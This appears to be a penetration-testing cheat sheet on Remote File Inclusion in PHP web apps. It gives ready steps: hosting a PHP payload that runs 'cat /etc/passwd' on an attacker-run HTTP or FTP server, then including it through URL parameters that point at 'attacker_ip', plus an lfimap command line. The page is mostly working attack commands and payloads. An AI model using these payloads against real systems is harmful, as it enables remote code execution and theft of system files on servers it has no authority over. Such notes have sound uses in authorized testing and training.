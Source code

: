 # Remote File Inclusion

Vulnerability in web app code that allows execution of files that are hosted on remote servers. Application can be vulnerable if 'allow_url_include' and 'allow_url_fopen' are set to 1.

### Remote inclusion via HTTP 
Setup web server with exploit.php on attacking machine, and try to include it with HTTP protocol.  
Start web server with: `python3 -m http.server 80`

Exploit.php:
```php
<?php echo system("cat /etc/passwd"); ?>
```
Include exploit file for RCE: `http://server/site.php?file=http://attacker_ip/exploit.php`  

### Remote inclusion via FTP
Setup a FTP server with exploit.php on attacking machine, and try to include it with FTP protocol.

```php
<?php echo system("cat /etc/passwd"); ?>
```
Start FTP server with: `python -m pyftpdlib -p 21`  
Include remote 'exploit.php': `http://server/site.php?file=ftp://attacker_ip/exploit.php`

### Lfimap
Remote file inclusion can be tested and exploited with [lfimap](https://github.com/hansmach1ne/lfimap).

`python3 lfimap.py -U "http://server/site.php?file=PWN" -r --no-stop --lhost <IP>`
